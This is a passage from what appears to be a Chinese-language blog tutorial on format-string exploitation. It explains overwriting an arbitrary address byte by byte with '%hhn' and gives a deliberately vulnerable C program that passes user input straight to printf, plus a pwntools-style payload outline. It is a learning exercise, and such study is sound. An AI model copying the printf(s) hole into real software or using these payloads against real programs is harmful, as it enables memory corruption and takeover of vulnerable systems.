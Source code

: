     #main
    if __name__ == '__main__':
        exp()
        print(p.recv())
    

![image-20220623215946976](https://img2022.cnblogs.com/blog/2080041/202206/2080041-20220623215947429-1582335297.png)

#### 覆盖大数(即任意地址)

一般我们理解的任意地址内存覆盖(写)，就是能把这个地址内存覆盖成任意想覆盖的地址，因为一般指针用来存储地址即4字节，可是覆盖成4字节那得用多少padding，缓冲区恐怕都不够用啊，所以覆盖大数的技巧在于把覆盖地址拆分出来，因为栈是连续的，所以拆分成覆盖每个字节。

    比如:0x804a024地址
    0x804a024 [原来:0x02] [修改成:0x78]
    0x804a025 [原来:0x00] [修该成:0x56]
    0x804a026 [原来:0x00] [修改成:0x34]
    0x804a027 [原来:0x00] [修改成:0x12]
    

这样我们的padding最大也只要0xff即255一般来说没什么问题应该(哈哈我也刚学,应该没啥问题把，各位大佬们)。

这里可以复习下`h`这个控制符了，h用于n时是一个指向short类型整数的指针，(图片不够完整)`hh`用于n时是一个指向char类型整数的指针。

![image-20220623222108686](https://img2022.cnblogs.com/blog/2080041/202206/2080041-20220623222109908-1485260618.png)

`写入单个字节主要用到hh`

题目还是这题：(要求进入b==0x12345678分支,输出modified b for a big number!)

    #include <stdio.h>
    int a = 123, b = 456;
    int main() {
      int c = 789;
      char s[100];
      printf("%p\n", &c);
      scanf("%s", s);
      printf(s);
      if (c == 16) {
        puts("modified c.");
      } else if (a == 2) {
        puts("modified a for a small number.");
      } else if (b == 0x12345678) {
        puts("modified b for a big number!");
      }
      return 0;
    }
    

思考并分析：

1.  b在全局变量，可以用符号表来获取地址
2.  b要==0x12345678才能进入分支，这是个大数，需要构造精妙的payload

    Payload  = p32(b地址)
    Payload += p32(b地址+1)
    Payload += p32(b地址+2)
    Payload += p32(b地址+3)
    Payload += padding_1
    Payload += '%6$hhn'
    Payload += padding_2
    Payload += '%7$hhn'
    Payload += padding_3
    Payload += '%8$hhn'
    Payload += padding_4
    Payload += '%9$hhn'
    